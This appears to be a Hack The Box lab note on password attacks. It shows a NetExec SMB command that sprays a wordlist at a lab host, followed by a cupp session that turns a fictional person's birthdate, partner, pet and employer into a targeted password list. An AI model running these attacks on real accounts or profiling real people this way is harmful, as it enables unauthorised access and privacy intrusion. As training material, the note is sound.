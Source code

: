 ```bash
nxc smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```
## Generating password list with cupp

| Field               | Details                      |
| ------------------- | ---------------------------- |
| Name                | Jane Smith                   |
| Nickname            | Janey                        |
| Birthdate           | December 11, 1990            |
| Relationship Status | In a relationship with Jim   |
| Partner's Name      | Jim (Nickname: Jimbo)        |
| Partner's Birthdate | December 12, 1990            |
| Pet                 | Spot                         |
| Company             | AHI                          |
| Interests           | Hackers, Pizza, Golf, Horses |
| Favorite Colors     | Blue                         |

```bash
Yashfren@htb[/htb]$ cupp -i

___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate (DDMMYYYY): 11121990


> Partners) name: Jim
> Partners) nickname: Jimbo
> Partners) birthdate (DDMMYYYY): 12121990


> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name: Spot
> Company name: AHI


> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: hacker,blue
```